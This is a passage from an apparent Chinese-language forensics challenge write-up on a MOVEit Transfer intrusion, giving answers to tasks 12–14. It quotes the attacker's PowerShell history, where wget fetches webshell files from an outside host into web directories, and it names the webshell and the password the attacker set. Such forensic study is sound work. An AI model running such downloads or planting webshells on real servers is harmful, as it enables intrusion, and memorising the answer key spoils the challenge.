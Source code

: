 在 Powershell 的历史记录文件 `"\Triage\Triage\uploads\auto\C%3A\Users\moveitsvc.WIN-LR8T2EF8VHM.002\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt` 中可以得到

```plaintext
cd C:\inetpub\wwwroot
wget http://10.255.254.3:9001/moveit.asp
dir
wget http://10.255.254.3:9001/moveit.asp -OutFile moveit.asp
dir
cd C:\MOVEitTransfer\wwwroot
wget http://10.255.254.3:9001/move.aspx -OutFile move.aspx
```

```plaintext title="Answer"
wget http://10.255.254.3:9001/move.aspx -OutFile move.aspx
```

## Task 13

>TA 部署的 webshell 的标题头中的字符串是什么？

Task 2 中有

```plaintext title="Answer"
awen asp.net webshell
```

## Task 14

>TA 将我们的 moveitsvc 帐户密码更改为什么？

Task 7 中有

```plaintext title="Answer"
5trongP4ssw0rd
```
